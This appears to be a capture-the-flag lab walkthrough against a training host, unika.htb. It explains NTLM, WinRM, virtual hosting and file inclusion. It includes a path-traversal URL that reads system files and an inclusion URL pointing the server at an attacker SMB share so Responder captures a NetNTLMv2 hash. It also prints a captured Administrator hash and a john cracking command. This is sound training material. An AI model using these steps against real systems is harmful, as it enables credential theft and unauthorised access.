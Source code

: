 ## New Technology Lan Manager 

Microsoft employs NTLM (New Technology LAN Manager) & Kerberos for authentication services.
This lab focuses on how a File Inclusion vulnerability on a webpage being served on a windows machine can be exploited to collect the NetNTLMv2 challenge of the user that is running the web server. We will use a utility called Responder to capture a NetNTLMv2 hash.

Windows Remote Management, or WinRM, is a Windows-native built-in remote management protocol that basically uses Simple Object Access Protocol to interact with remote computers and servers, as well as Operating Systems and applications. 
```
WinRM allows the user to :
→ Remotely communicate and interface with hosts
→ Execute commands remotely on systems that are not local to you but are network accessible.
→ Monitor, manage and configure servers, operating systems and client machines from a remote location.
```
As a pentester, this means that if we can find credentials (typically username and password) for a user who
has remote management privileges, we can potentially get a PowerShell shell on the host.



The website has redirected the browser to a new URL, and your host doesn't know how to find unika.htb. 
This webserver is employing name-based Virtual Hosting for serving the requests.

Name-Based Virtual hosting is a method for hosting multiple domain names (with separate handling of each name) on a single server. 
This allows one server to share its resources, such as memory and processor cycles, without requiring all the services to be used by the same hostname.
The web server checks the domain name provided in the Host header field of the HTTP request and sends a response according to that.

```
echo "10.129.136.91   unika.htb" | sudo tee -a /etc/hosts
```
Adding this entry in the /etc/hosts file will enable the browser to resolve the hostname unika.htb to
the corresponding IP address & thus make the browser include the HTTP header Host: unika.htb in
every HTTP request that the browser sends to this IP address, which will make the server respond with the
webpage for unika.htb.



File Inclusion Vulnerability

Dynamic websites include HTML pages on the fly using information from the HTTP request to include GET
and POST parameters, cookies, and other variables. It is common for a page to "include" another page
based on some of these parameters.

LFI or Local File Inclusion occurs when an attacker is able to get a website to include a file that was not
intended to be an option for this application. A common example is when an application uses the path to a file as input. 
If the application treats this input as trusted, and the required sanitary checks are not performed on this input, then the attacker can exploit it by using the ../ string in the inputted file name and eventually view sensitive files in the local file system. 
In some limited cases, an LFI can lead to code execution as well.

RFI or Remote File Inclusion is similar to LFI but in this case it is possible for an attacker to load a remote file on the host using protocols like HTTP, FTP etc.

We test the page parameter to see if we can include files on the target system in the server response.
One of the most common files that a penetration tester might attempt to access on a Windows machine to verify LFI is the hosts file :
```
WINDOWS\System32\drivers\etc\hosts
```
The ../ string is used to traverse back a directory, one at a time. Thus multiple ../ strings are
included in the URL so that the file handler on the server traverses back to the base directory i.e. C:\.
```
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

The file inclusion, in this case, was made possible because in the backend the include() method of PHP is
being used to process the URL parameter page for serving a different webpage for different languages.
And because no proper sanitization is being done on this page parameter, we were able to pass malicious
input and therefore view the internal system files.
The  include statement takes all the text/code/markup that exists in the specified file and loads it into the
memory, making it available for use.

NTLM is a collection of authentication protocols created by Microsoft. It is a challenge-response
authentication protocol used to authenticate a client to a resource on an Active Directory domain.
```
The NTLM authentication process is done in the following way :

  1. The client sends the user name and domain name to the server.
  2. The server generates a random character string, referred to as the challenge.
  3. The client encrypts the challenge with the NTLM hash of the user password and sends it back to the server.
  4. The server retrieves the user password (or equivilent).
  5. The server uses the hash value retrieved from the security account database to encrypt the challenge string. 
     The value is then compared to the value received from the client. If the values match, the client is authenticated.
```

A hash function is a one way function that takes any amount of data and returns a fixed size value.
Typically, the result is referred to as a hash, digest, or fingerprint. They are used for storing passwords
more securely, as there's no way to convert the hash directly back to the original data (though there
are attacks to attempt to recover passwords from hashes, as we'll see later). So a server can store a
hash of your password, and when you submit your password to the site, it hashes your input, and
compares the result to the hash in the database, and if they match, it knows you supplied the correct
password.

An NTHash is the output of the algorithm used to store passwords on Windows systems in the SAM
database and on domain controllers. An NTHash is often referred to as an NTLM hash or even just an
NTLM, which is very misleading / confusing.

When the NTLM protocol wants to do authentication over the network, it uses a challenge / response
model as described above. A NetNTLMv2 challenge / response is a string specifically formatted to
include the challenge and response. This is often referred to as a NetNTLMv2 hash, but it's not actually
a hash. Still, it is regularly referred to as a hash because we attack it in the same manner. You'll see
NetNTLMv2 objects referred to as NTLMv2, or even confusingly as NTLM.

In the PHP configuration file php.ini , "allow_url_include" wrapper is set to "Off" by default, indicating that
PHP does not load remote HTTP or FTP URLs to prevent remote file inclusion attacks. However, even if
allow_url_include and allow_url_fopen are set to "Off", PHP will not prevent the loading of SMB URLs.
In our case, we can misuse this functionality to steal the NTLM hash.


Responder will set up a malicious SMB server. When the target machine attempts to perform the NTLM authentication to that server, Responder
sends a challenge back for the server to encrypt with the user's password. When the server responds, Responder will use the challenge and the encrypted response to generate the NetNTLMv2. While we can't reverse the NetNTLMv2, we can try many different common passwords to see if any generate the same
challenge-response, and if we find one, we know that is the password. This is often referred to as hash
cracking.

```
Location of Responder.conf file -
-> for default system install : /usr/share/responder/Responder.conf
-> for github installation   : /installation_directory/Responder.conf

sudo responder -I {network_interface}
```
With the Responder server ready, we tell the server to include a resource from our SMB server by setting
the page parameter as follows via the web browser.
```
http://unika.htb/?page=//{attacker_IP}/somefile
```
In this case, because we have the freedom to specify the address for the SMB share, we specify the IP
address of our attacking machine. Now the server tries to load the resource from our SMB server, and
Responder captures enough of that to get the NetNTLMv2.
```
echo "Administrator::DESKTOP-
H3OF232:1122334455667788:7E0A87A2CCB487AD9B76C7B0AEAEE133:0101000000000000005F3214B534D
801F0E8BB688484C96C0000000002000800420044004F00320001001E00570049004E002D004E0048004500
3800440049003400410053004300510004003400570049004E002D004E00480045003800440049003400410
05300430051002E00420044004F0032002E004C004F00430041004C0003001400420044004F0032002E004C
004F00430041004C0005001400420044004F0032002E004C004F00430041004C0007000800005F3214B534D
801060004000200000008003000300000000000000001000000002000000C2FAF941D04DCECC6A7691EA926
30A77E073056DA8C3F356D47C324C6D6D16F0A0010000000000000000000000000000000000009002000630
06900660073002F00310030002E00310030002E00310034002E00320035000000000000000000" >
hash.txt
```
The NetNTLMv2 includes both the challenge (random text) and the encrypted response.

The hash type is automatically identified by the john command-line tool :
```
john -w=/usr/share/wordlists/rockyou.txt hash.txt

  -w : wordlist to use for cracking the hash
```
5985/tcp WinRM for HTTP

